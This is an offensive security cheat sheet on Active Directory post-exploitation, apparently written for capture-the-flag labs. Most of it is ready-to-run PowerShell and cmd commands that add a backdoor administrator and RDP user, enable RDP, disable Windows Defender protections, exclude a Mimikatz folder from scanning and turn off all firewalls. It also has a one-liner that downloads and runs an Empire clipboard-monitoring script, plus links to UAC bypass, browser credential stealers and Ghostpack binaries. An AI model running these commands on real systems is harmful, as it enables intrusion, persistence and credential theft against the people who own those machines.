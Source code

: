 ```yaml
---
description: Active Directory Post Exploitation Checklists
---
```


# AD: Post Exploitation

### Add Local Admin and RDP User

Add user **asuka** and add to RDP Users

{% code overflow="wrap" %}
```powershell
net user asuka 'TrYh@rdeR!' /add
net localgroup "Remote Desktop Users" asuka /add
net localgroup "Administrators" asuka /add

# Then access with xfreerdp
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:support.htb \
/u:asuka /p:'TrYh@rdeR!' +nego
# or using rdesktop
rdesktop support.htb
```
{% endcode %}

### Enable RDP Access

{% code overflow="wrap" %}
```powershell
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -
name "fDenyTSConnections" -value 0
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"

# In case powershell is not enabled (like in old machine)
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```
{% endcode %}

### Disable Defender Feature

{% code overflow="wrap" %}
```powershell
Get-MpComputerStatus
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
Set-MpPreference -ExclusionExtension "ps1"
Set-MPPreference -DisableBehaviorMonitoring $true

# Add folder exclusion (in case tamper protection is enabled)
Add-MpPreference -ExclusionPath C:\Mimikatz\
```
{% endcode %}

### Turn Off Firewall

{% code overflow="wrap" %}
```powershell
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
# or
netsh advfirewall set allprofiles state off
```
{% endcode %}

### Get-ClipboardContents

Monitors the clipboard on a specified interval for changes to copied text.

{% code overflow="wrap" %}
```powershell
iex (iwr -usebasicparsing https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/collection/Get-ClipboardContents.ps1);Get-ClipboardContents
```
{% endcode %}

### WADComs

WADComs is an interactive cheat sheet, containing a curated list of offensive security tools and their respective commands, to be used against Windows/AD environments.

* [https://wadcoms.github.io/](https://wadcoms.github.io/)

### WinPEAS

Windows Privilege Escalation Awesome Scripts

* [https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

### UACME

UAC Bypass

* [https://github.com/yuyudhn/UACME-bin](https://github.com/yuyudhn/UACME-bin)
* [https://github.com/hfiref0x/UACME](https://github.com/hfiref0x/UACME)

### PowerUp

PowerUp.ps1 is a program that enables a user to perform quick checks against a Windows machine for any privilege escalation opportunities. It is not a comprehensive check against all known privilege escalation techniques, but it is often a good place to start when you are attempting to escalate local privileges.

* [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
* [Advanced PowerUp.ps1 Usage](https://rootrecipe.medium.com/advanced-powerup-ps1-usage-ad0f6d713a9f)
* [HackTricks: PowerUp](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/powerup)

### Dump Browser Saved Password

* [BrowserStealer](https://github.com/SaulBerrenson/BrowserStealer)
* [LaZagne](https://github.com/AlessandroZ/LaZagne)

### Inveigh

Responder, but in Powershell

* [https://github.com/Kevin-Robertson/Inveigh](https://github.com/Kevin-Robertson/Inveigh)

### Other Useful Stuff

* [https://github.com/r3motecontrol/Ghostpack-CompiledBinaries](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

